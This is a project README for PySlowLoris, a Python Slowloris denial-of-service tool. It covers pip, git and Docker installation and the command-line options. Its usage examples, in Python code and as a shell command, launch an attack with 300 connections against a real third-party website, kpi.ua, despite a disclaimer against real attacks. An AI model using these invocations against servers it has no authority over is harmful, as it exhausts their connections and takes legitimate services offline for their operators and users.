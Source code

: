 PySlowLoris
===========


.. image:: https://badges.gitter.im/gitterHQ/gitter.png
   :target: https://gitter.im/SlowLoris-dev/Lobby
   :alt: Gitter chat


.. image:: https://img.shields.io/badge/license-MIT%20license-orange.svg
   :target: https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE
   :alt: License


.. image:: https://img.shields.io/badge/python-2.7-blue.svg
   :target: https://github.com/maxkrivich/SlowLoris
   :alt: Python


.. image:: https://travis-ci.org/maxkrivich/SlowLoris.svg?branch=master
   :target: https://travis-ci.org/maxkrivich/SlowLoris
   :alt: Build Status


.. image:: https://requires.io/github/maxkrivich/SlowLoris/requirements.svg?branch=master
   :target: https://requires.io/github/maxkrivich/SlowLoris/requirements/?branch=master
   :alt: Requirements Status


.. image:: https://landscape.io/github/maxkrivich/SlowLoris/master/landscape.svg?style=flat
   :target: https://landscape.io/github/maxkrivich/SlowLoris/master
   :alt: Code Health


.. image:: https://badge.fury.io/py/PySlowLoris.svg
   :target: https://badge.fury.io/py/PySlowLoris
   :alt: PyPI version


This repository was created for testing Slow Loris vulnerability on different web servers. SL based on keeping alive open connection as long as possible and sending some trash headers to the server. If you are interested what I'm trying doing here, please join my team and let's do fun together. Please DO NOT use this in the real attacks on the servers.

The main reason why I'm writing this module it is to create the easy tool for the fast check a small personal or corporate web server what based on Apache and etc. Also, last but not least reason is to improve my skills in this sphere.

More information you can find `here <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>`_.

Installation
^^^^^^^^^^^^

PyPi
~~~~

To install PySlowLoris, run this command in your terminal:

.. code-block:: sh

   $ pip install pyslowloris

This is the preferred method to install PySlowLoris, as it will always install the most recent stable release.

Source files
~~~~~~~~~~~~

In case you downloaded or cloned the source code from `GitHub <https://github.com/maxkrivich/SlowLoris>`_ or your own fork, you can run the following to install cameo for development:

.. code-block:: sh

   $ git clone https://github.com/[username]/SlowLoris.git
   $ cd SlowLoris
   $ vitualenv --python=python[version] venv
   $ source venv/bin/active
   $ pip install --editable .

Docker Hub
~~~~~~~~~~

Pulling image from `Docker Hub <https://hub.docker.com/r/maxkrivich/pyslowloris/>`_ and run container:

.. code-block:: sh

   $ docker pull maxkivich/pyslowloris
   $ docker run --rm -it maxkivich/pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]

Also you can build image from `Dockerfile <https://github.com/maxkrivich/SlowLoris/blob/master/Dockerfile>`_ and run container: 

.. code-block:: sh

   $ docker build -t pyslowloris .
   $ docker run --rm -it pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]

**Note:** *Don't forget about 'sudo'!*

Basic Usage
^^^^^^^^^^^

Available command list:

.. code-block:: sh

   $ slowloris --help
   usage: slowloris [-h] [-u URL] [-s SOCKET_COUNT] [-p PORT]

   Small and simple tool for testing Slow Loris vulnerability

   optional arguments:
     -h                show this help message and exit
     -u URL            link to the web server (http://google.com) - str
     -s SOCKET_COUNT   maximum count of created connection (default value 300) - int
     -p PORT           port what will be used - int

Using PySlowLoris from code
~~~~~~~~~~~~~~~~~~~~~~~~~~~

Here are some example to start attack from Python code

.. code-block:: py

   import time
   from PySlowLoris import TargetInfo, SlowLorisAttack

   target = TargetInfo(url="http://kpi.ua/", port=80)
   target.get_info()
   slowloris = SlowLorisAttack(target)
   slowloris.start_attack() # stop_attack()

   while True:
       time.sleep(1)

Using PySlowLoris from terminal
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The following command helps to use module from command line

.. code-block:: sh

   $ slowloris -u http://kpi.ua/ -s 300

stop execution: Ctrl + C
########################

Bugs, issues and contributing
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If you find `bugs <https://github.com/maxkrivich/SlowLoris/issues>`_ or have `suggestions <https://github.com/maxkrivich/SlowLoris/issues>`_ about improving the module, don't hesitate to contact `me <https://maxkrivich.github.io>`_.

License
^^^^^^^

This project is licensed under the MIT License - see the `LICENSE <https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE>`_ file for details

Copyright (c) 2017 Maxim Krivich

`maxkrivich.github.io <https://maxkrivich.github.io/>`_


